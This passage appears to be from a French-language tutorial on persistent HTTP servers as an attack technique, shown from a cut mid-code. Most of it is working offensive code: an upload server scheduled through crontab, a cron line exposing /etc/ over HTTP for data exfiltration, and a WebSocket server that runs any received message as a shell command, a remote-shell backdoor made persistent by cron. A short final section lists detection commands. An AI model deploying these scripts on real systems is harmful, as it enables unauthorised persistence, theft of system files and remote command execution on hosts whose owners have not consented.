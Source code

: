 ```bash

os.chdir('/home/student/')
with socketserver.TCPServer(("", 8000), UploadHandler) as httpd:
    httpd.serve_forever()
EOF

chmod +x /tmp/upload_server.py
echo "* * * * * python3 /tmp/upload_server.py" | crontab -
```

### Applications Pratiques

#### Exfiltration de Données
```bash
# Serveur pour exfiltrer des données sensibles
echo "* * * * * cd /etc/ && python3 -m http.server 8001 --bind 0.0.0.0" | crontab -
```

#### Tunnel de Communication
```bash
# Serveur WebSocket pour communication bidirectionnelle
cat << 'EOF' > /tmp/websocket_server.py
#!/usr/bin/env python3
import asyncio
import websockets
import subprocess

async def handle_client(websocket, path):
    async for message in websocket:
        try:
            result = subprocess.run(message, shell=True, capture_output=True, text=True)
            await websocket.send(f"STDOUT:\n{result.stdout}\nSTDERR:\n{result.stderr}")
        except Exception as e:
            await websocket.send(f"ERROR: {str(e)}")

start_server = websockets.serve(handle_client, "0.0.0.0", 8765)
asyncio.get_event_loop().run_until_complete(start_server)
asyncio.get_event_loop().run_forever()
EOF

chmod +x /tmp/websocket_server.py
echo "* * * * * python3 /tmp/websocket_server.py" | crontab -
```

### Détection du Serveur HTTP Persistant

#### Signes d'Activité Suspecte
```bash
# Ports inhabituels ouverts
netstat -tulnp | grep :8000
ss -tulnp | grep :8000

# Processus Python suspects
ps aux | grep -E "(SimpleHTTPServer|http\.server)"

# Connexions réseau actives
lsof -i :8000
```
